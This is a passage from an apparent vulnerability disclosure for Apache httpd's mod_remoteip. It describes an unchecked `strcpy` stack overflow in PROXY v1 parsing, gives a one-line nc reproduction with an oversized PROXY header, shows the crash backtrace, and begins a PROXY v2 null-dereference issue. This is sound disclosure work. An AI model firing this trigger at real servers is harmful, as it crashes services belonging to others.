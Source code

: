### Detail

After the `remoteip_input_filter` function has determined that received input is
PROXY v1 (with `remoteip_determine_version`) the raw PROXY header data context
is passed to `remoteip_process_v1_handler` to handle decoding the human readable
PROXY v1 message format.

A static sized buffer named `buf` is initialized on the stack with a capacity of
`sizeof(hdr->v1.line)`, resulting in a 108 byte buffer. Later, a `strcpy` is
used to copy from `hdr->v1.line` to `buf`. There is no check that the `strlen`
of `hdr->v1.line` is less than the capacity of `buf`, resulting in a trivial
buffer overflow.

```
/* parse in separate buffer so have the original for error messages */
strcpy(buf, hdr->v1.line);
```

### Example reproduction

Any PROXY v1 request with a "PROXY " prefix, a trailing `\r\n` and sufficient
size will trigger this vulnerabiltiy. Using requests that are too large will end
up triggering the more general `memcpy` vulnerability discussed previously.

```
printf "PROXY aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\r\n" | nc localhost 6666
```

Stacktrace:
```
*** buffer overflow detected ***: /usr/local/apache2/bin/httpd terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7ffff71927e5]
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x5c)[0x7ffff723415c]
/lib/x86_64-linux-gnu/libc.so.6(+0x117160)[0x7ffff7232160]
/lib/x86_64-linux-gnu/libc.so.6(+0x1164b2)[0x7ffff72314b2]
/usr/local/apache2/modules/mod_remoteip.so(+0x39e3)[0x7ffff486e9e3]
/usr/local/apache2/bin/httpd(ap_rgetline_core+0xfa)[0x43843a]
/usr/local/apache2/bin/httpd(ap_read_request+0x2a6)[0x43b1e6]
/usr/local/apache2/bin/httpd[0x464b6d]
/usr/local/apache2/bin/httpd(ap_run_process_connection+0x40)[0x45beb0]
/usr/local/apache2/bin/httpd[0x470455]
/usr/local/apache2/bin/httpd[0x471428]
/lib/x86_64-linux-gnu/libpthread.so.0(+0x76ba)[0x7ffff74ec6ba]
/lib/x86_64-linux-gnu/libc.so.6(clone+0x6d)[0x7ffff722241d]
```

## Denial of service from null pointer dereference handling PROXY v2

In the `remoteip_input_filter` function it's assumed that when control flow
reaches L1173 that the `done` variable is true and so the `conn_conf` has been
populated with the true `client_ip` and `client_addr` by the PROXY messages that
were processed to reach the done state. The `conn_conf->client_addr` field is
then dereferenced to log `conn_conf->client_addr->port`.
